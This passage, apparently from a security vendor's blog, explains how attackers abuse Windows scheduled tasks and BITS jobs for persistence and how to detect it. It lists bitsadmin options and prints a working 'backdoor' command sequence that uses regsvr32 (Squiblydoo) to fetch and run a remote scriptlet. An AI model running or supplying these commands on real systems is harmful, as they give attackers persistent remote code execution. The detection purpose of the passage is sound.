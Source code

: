 It’s important to note that there are many other ways scheduled tasks can be abused by adversaries, including offensive security tools, custom scripts, .job files, the AT command, and directly via the [Task Scheduler API](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-reference). Elastic Security provides detections and preventions for various TTPs related to scheduled task abuse and provides API-level visibility.

In the next section, we’ll analyze BITS jobs, how they are used by attackers in the wild, and a variety of methods to identify or detect this technique.

## Persistence via BITS jobs (T1197)

Windows [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a built-in framework used to transfer files to and from web and SMB servers. Microsoft provides a utility called bitsadmin.exe and PowerShell cmdlets for managing the transfer of files.

Microsoft uses BITS to download and install updates in the background — using idle bandwidth. For example, if a user starts a Windows Update and signs out of the computer, or if a network connection is lost, BITS will resume the download automatically as soon as it is able. The capability to survive reboots makes it an ideal tool for attackers to transfer malicious files and possibly large volumes of data the actor plans to steal. Threat groups like [APT40](https://attack.mitre.org/groups/G0065/) and malware families such as the Qbot banking trojan have used BITS to transfer malicious files and set up persistence.

Figure 9 shows some [parameters](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin) that can be used with bitsadmin.exe. We can identify interesting activity by focusing on creation and transfer command line options.

```
/create - creates a transfer job with the given display name
/addfile - adds a file to the specified job
/resume - activates a new or suspended job in the transfer queue
/transfer - transfers one or more files
/SetNotifyCmdLine - sets the command that will run when the job finishes transferring data or when a job enters a state
/SetMinRetryDelay - sets the minimum length of time, in seconds, that BITS waits after encountering a transient error before trying to transfer the file
```

_Figure 9 - Parameters that can be used with the Windows bitsadmin.exe utility_

Figure 10 shows an example of how the above parameters can be used to create a BITS job. The below example from the [bitsadminexec](https://github.com/3gstudent/bitsadminexec) project demonstrates how bitsadmin.exe can be used to execute the Squiblydoo technique, discovered by [Casey Smith](https://twitter.com/subTee). Squiblydoo utilizes regsvr32.exe to download an XML file that contains scriptlets for executing code on the victim machine. This [sample](https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct) executes calc.exe, but it’s a good use case for how this could be used maliciously:

```
# create backdoor
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```
